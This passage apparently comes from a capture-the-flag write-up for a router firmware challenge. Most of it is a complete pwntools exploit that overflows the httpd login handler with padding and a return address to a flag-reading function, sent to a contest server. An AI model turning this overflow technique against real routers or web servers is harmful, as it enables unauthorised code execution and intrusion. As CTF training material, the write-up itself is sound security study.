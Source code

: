 ![](image-28.png)
{{</expand>}}
So, we can just run our exploit with the offset `45` against the remote server to get the flag, here's the final exploit:

```python
from pwn import *

elf = ELF("./_new_fw.bin.extracted/jffs2-root/bin/httpd")
context.binary = elf.path

def login(offset=45, content_length=200):
    io = remote("cyctf23-11acfb59ca02-low-budget-router-ma-0.chals.io", 443, ssl=True)
    header = (
        "POST /login HTTP/1.1\r\n"
        "Host: localhost:10080\r\n"
        "Content-Type: application/x-www-form-urlencoded\r\n"
        f"Content-Length: {content_length}\r\n\r\n"
    )

    body = (
        "user=admin&pass=notcomplexjustnotguessable\0" +
        "A" * offset +
        p32(elf.sym['readFlag']).decode()
    )

    payload = (header + body).encode() + b"\r\n"
    io.send(payload)
    resp = io.clean(1).replace(b"\r\n",b"\n").decode()
    io.close()
    return resp

print(login())
```

And, we get the flag!
![](image-26.png)
